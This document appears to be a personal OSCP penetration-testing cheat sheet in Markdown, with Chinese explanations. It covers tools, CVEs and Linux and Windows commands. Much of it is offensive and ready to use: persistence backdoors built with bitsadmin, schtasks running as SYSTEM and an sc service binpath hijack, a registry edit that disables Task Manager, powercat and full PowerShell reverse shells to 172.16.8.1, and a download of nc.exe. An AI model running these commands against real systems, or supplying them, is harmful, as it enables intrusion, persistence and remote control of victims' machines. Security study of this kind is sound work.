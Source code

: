 # Basic Commands & Tools

## Kali

### hosts

```bash
# OSCP VPN
51.79.170.192   vpn-pool1.offseclabs.com

# OSCP Labs
#192.168.225.16 offsecwp
```

### OSCP Tools

#### Information Gathering

burpsuite, dirsearch, gobuster

seclists, Nessus，dvwa
powercat, mingw-w64, x86_64-linux-gnu-gcc, rsg

#### Vulnerability Analysis

##### wpscan

wp.php

### General Tools

tcvps
shadowsocks
Parallels: Lock screen time

### CVE

- 2021-3493(Linux-priviledge)
- 2019-11447(CuteNews)

### GN

phase_2 2(172.16.33.30), homework 172.16.33.9

## pentest process

A typical penetration test comprises the following stages:

- Defining the Scope
- Information Gathering
- Vulnerability Detection
- Initial Foothold
- Privilege Escalation
- Lateral Movement
- Reporting/Analysis
- Lessons Learned/Remediation

## Linux

### shell

#### find

```shell
touch root_auto_schedule.sh
sudo chown root root_auto_schedule.sh
sudo chmod o+w root_auto_schedule.sh
sudo find / -user root -type f -perm -o=w -iname '*.sh' 2>/dev/null
```

#### ss

```shell
ss -aptu
```

## Windows

### cmd & powershell

powershell -ep bypass

#### systeminfo

```shell
systeminfo /s host1
```

#### set

```shell
echo %temp%
```

#### dir

```shell
dir /a
dir /s *.exe /p
```

#### forfiles

```shell
forfiles /p c:\windows /s /m notepad.exe /c "cmd /s echo @path @fdate @ftime"
```

#### attrib

```shell
attrib -h local_hide.txt
```

#### icaacls

```shell
icacls local_hide.txt /grant Everyone:F
```

### reg

reg 是Windows命令行和脚本中用来操纵注册表的命令。reg 命令的全称是 "Registry Editor" 的缩写，它允许用户在命令行界面中执行注册表操作，如添加、修改、删除注册表键和值。

注册表是Windows操作系统中一个重要的数据库，存储了系统设置和配置信息，包括硬件、软件、用户偏好和系统设置等。通过 reg 命令，可以直接对注册表进行查询和更改，这对于系统管理和故障排除非常有用。

```shell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg add "hkcu\software\microsoftware\windows\currentversion\policies\system" /v disabletaskmgr /t reg_dword /d "1" /f
```

### bitsadmin

bitsadmin是一个Windows命令行工具，用于管理后台智能传输服务（Background Intelligent Transfer Service，简称BITS）。BITS是一项Windows服务，允许文件在网络上以异步方式传输，通常用于在用户不注意的情况下传输文件，如Windows更新或其他应用程序的数据更新。

bitsadmin 工具提供了一系列的命令来创建、监视和控制BITS作业。作业是由一个或多个文件传输组成的，并且可以根据网络条件动态地调整速度，这样在网络使用率低的时候可以更快地传输数据，而在网络繁忙时则减慢速度，避免占用过多带宽。

```shell
bitsadmin /list /allusers /verbose
bitsadmin /info xxx /verbose

bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://1.1.1.1/backdoor.exe" "c:\windows\temp\backdoor.exe"
bitsadmin /SetNotifyCmdLine backdoor "cmd.exe /c c:\windows\temp\backdoor.exe" NULL
bitsadmin /Setminretrydelay backdoor 1
bitsadmin /resume backdoor
```

### certutil

certutil 是Windows命令行工具，用于管理证书服务和证书相关的操作。证书服务是Windows操作系统中的一个角色，用于创建和管理证书，以及为用户和计算机分发证书。

### schtasks

schtasks 是Windows操作系统中用来创建、删除、查询、更改和运行系统任务计划的命令行工具。任务计划可以用来定时运行脚本或程序，执行系统维护任务，或者自动执行重复的作业。

```shell
schtasks /create /tn 任务名称 /tr 任务运行的命令 /sc 计划类型 /mo 修饰参数 /d 天 /st 开始时间 /ru 运行用户
```

```shell
schtasks /query /fo LIST /v
schtasks /create /tn "backdoor" /tr "c:\windows\temp\backdoor.exe" /sc minute /mo 1 /ru "system"
schtasks /run /tn "backdoor"
```

### sc

sc 是Windows操作系统中用来管理服务的命令行工具。sc 命令可以用来创建、删除、查询、更改和控制服务，如启动、停止、暂停和恢复服务。

```shell
sc query wsearch
sc qc wsearch
sc config wsearch binpath= "cmd.exe /c c:\windows\temp\backdoor.exe"
sc start wsearch
```

### SysinternalsSuit

- PsInfo64.exe /accepteula

---

## Tools (reverse shell)

### powercat

```shell
powercat -c 172.16.8.1 -p 1234 -e cmd.exe
```

### powershell

reverse shell

```powershell
# 被控端
$client = New-Object System.Net.Sockets.TCPClient('172.16.8.1',1234);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
}
$client.Close();

# 单行行式的代码
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('172.16.8.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

download file

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://kali/binaries/nc.exe','c:\windows\temp\nc.exe')"
```
